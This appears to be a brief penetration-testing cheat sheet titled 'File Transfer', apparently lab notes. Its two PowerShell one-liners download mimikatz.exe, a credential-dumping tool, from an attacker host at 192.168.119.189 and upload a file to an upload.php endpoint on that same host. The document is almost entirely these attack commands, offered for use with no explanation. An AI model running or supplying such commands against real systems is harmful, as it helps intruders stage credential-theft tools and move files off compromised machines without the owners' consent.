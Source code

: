 # File Transfer

## Powershell

```text
powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.189/mimikatz.exe','mimikatz.exe')
```

```text
powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.119.189/upload.php','test.png')
```



